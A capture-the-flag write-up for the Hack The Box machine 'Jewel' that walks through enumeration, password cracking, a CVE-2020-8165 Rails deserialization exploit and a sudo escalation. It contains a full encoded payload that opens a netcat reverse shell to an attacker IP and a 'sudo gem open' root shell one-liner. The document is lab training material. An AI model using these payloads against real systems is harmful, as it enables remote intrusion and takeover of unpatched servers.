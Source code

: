 ```yaml
---
published: false
---
```

<h1>Scanning</h1>

<img src="https://i.ibb.co/dbW2t85/Screenshot-from-2021-02-13-17-25-59.png" alt="Screenshot-from-2021-02-13-17-25-59" border="0"> 

<p>We found port 22 for ssh and port 8000,8080 for HTTP where port 8000</p>

<p>Let`s add jewel.htb in our hosts </p>

<img src="https://i.ibb.co/5v1Xjw8/Screenshot-from-2021-02-13-17-54-04.png" alt="Screenshot-from-2021-02-13-17-54-04" border="0">
<h2>Enumeration</h2>
<h2>Port 8000</h2>
<img src="https://i.ibb.co/kxyH5Kj/Screenshot-from-2021-02-13-18-01-04.png" alt="Screenshot-from-2021-02-13-18-01-04" border="0">

<h2>port 8080</h2>
<img src="https://i.ibb.co/37D1z6D/Screenshot-from-2021-02-13-18-01-35.png" alt="Screenshot-from-2021-02-13-18-01-35" border="0">

<p>Let`s enumerate the BLOG!</p>
<img src="https://i.ibb.co/FmT1Ppz/Bill.png" alt="Bill" border="0">
<img src="https://i.ibb.co/s9vmvfL/Jennifer.png" alt="Jennifer" border="0">
<p>We found 2 user Bill,Jennifer </p>

<p>Let`s enumerate the REPO </p>
<img src="https://i.ibb.co/0fNWrZK/Screenshot-from-2021-02-13-18-15-14.png" alt="Screenshot-from-2021-02-13-18-15-14" border="0">

<p>After some enumerating i found SQL file "bd.sql" and i got some hashes</p>
<img src="https://i.ibb.co/d08S7kv/Screenshot-from-2021-02-13-18-18-20.png" alt="Screenshot-from-2021-02-13-18-18-20" border="0">

<p>I cracked Bill hash "spongebob" but couldn`t login, let`s countinue enumeration</p>
<img src="https://i.ibb.co/JKpyJ9q/Screenshot-from-2021-02-13-18-27-25.png" alt="Screenshot-from-2021-02-13-18-27-25" border="0">
<h2>User flag</h2>
<p>It`s using ruby '2.5.5' , let`s search for an exploit</p>
<p>After searching i found a CVE</p><a href="https://github.com/masahiro331/CVE-2020-8165">CVE-2020-8165</a> 
<p>I tested all the fields and i found that the vulnerable input in updating user fields</p>
<p>Payload <blockquote>%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T</blockquote></p>
<p>Change the ip to your ip</p>
<img src="https://i.ibb.co/52wq0rs/web10.png" alt="web10" border="0">
<img src="https://i.ibb.co/GRGjx1b/cmd2.jpg" alt="cmd2" border="0">
<pre>
<span class="k">$ su bill</span>
<span class="na">Password: </span>
<span class="k">bill@jewel:~$ whoami</span>
<span class="na">bill</span>
</pre>
<pre>
<p>The password is "spongebob" we cracked it 
if you remember </p><p>Let`s upgrade our shell </p>
</pre>
<img src="https://i.ibb.co/wJVwsXx/ssh.jpg" alt="ssh" border="0">
<img src="https://i.ibb.co/cCN66PD/ssshhs1.jpg" alt="ssshhs1" border="0">

<h2>Root flag</h2>
<p>I listed the directory as 1st step of enumeration and i found Google auth, it look like the admin use 2FA</p>
<img src="https://i.ibb.co/NydTvQn/Google-autyh.jpg" alt="Google-autyh" border="0">
<p>Let`s get the secret key and use google auth</p>
<img src="https://i.ibb.co/RghXZSW/cmd10.jpg" alt="cmd10" border="0">
<img src="https://i.ibb.co/GTBN0Wz/auth-1.jpg" alt="auth-1" border="0">
<img src="https://i.ibb.co/QcTKwXY/auth-2.jpg" alt="auth-2" border="0">
<p>Let`s generate the OTP</p>
<img src="https://i.ibb.co/89GyndH/web14.jpg" alt="web14" border="0">
<p>Let`s use the OTP</p>
<img src="https://i.ibb.co/MM9SNFy/cmd11.jpg" alt="cmd11" border="0">
<p>Looks like something wrong.</p>
<p>This step made my mind blow off , i searched a lot and asked for a nudge at HTB discord server</p>
<p>Someone told me it`s about sync with the victim box, let`s see</p>
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">.
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">
<p>Timezone is different, let`s set our machine to the victim timezone</p>
<img src="https://i.ibb.co/PxmmR2H/cmd163.jpg" alt="cmd163" border="0">
<img src="https://i.ibb.co/Mn5tVyQ/cmd1645.jpg" alt="cmd1645" border="0">
<p>Let`s try to escalate privilege again</p>
<img src="https://i.ibb.co/1M7W8dv/priv.jpg" alt="priv" border="0">
<p>Bam ! it`s working</p>
<pre>
<span class="k">sudo gem open -e "/bin/sh -c /bin/sh" rdoc</span>
                                                                </pre>
<img src="https://i.ibb.co/JzTS9cn/cmd19.jpg" alt="cmd19" border="0">

<p>Thanks for reading i hope you enjoyed </p>
